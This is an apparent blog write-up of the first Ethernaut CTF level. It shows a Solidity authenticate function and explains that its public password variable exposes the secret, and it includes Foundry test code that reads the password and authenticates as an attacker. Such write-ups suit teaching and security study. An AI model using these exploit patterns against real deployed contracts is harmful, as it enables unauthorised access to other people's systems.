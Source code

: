 ```yaml
---
layout: post
title: "Ethernaut Challenges"
date: 2025-04-25
categories: writeups
tags: [ctfs, blockchain]

---
```






# Ethernaut Challenges

🔗 **GitHub**: [View](https://github.com/BLOCK-PROGRAMR/SCATER70/tree/main/ctf/ethernaut)


## Level 1: Hello Ethernaut

### 🔍 Vulnerable Function
```solidity
function authenticate(string memory passkey) public {
    if (
        keccak256(abi.encodePacked(passkey)) ==
        keccak256(abi.encodePacked(password))
    ) {
        cleared = true;
    }
}
```

**Vulnerability**: The `password` variable is marked as `public`, which allows anyone to call `.password()` and get the secret directly.

### 🧪 Exploit Test
```solidity
function test_pass_attack() public {
    vm.startPrank(attacker);
    assertEq(resultpass, instance.password(), "password failed");

}

function test_attack() public {
    vm.startPrank(attacker);

    string memory result = instance.info();
    result = instance.info1();
    result = instance.info2("hello");
    result = instance.info42();
    result = instance.method7123949();

    instance.authenticate(password);

    bool cleared = instance.getCleared();
    assertTrue(cleared, "Authentication failed");
    vm.stopPrank();
}
```

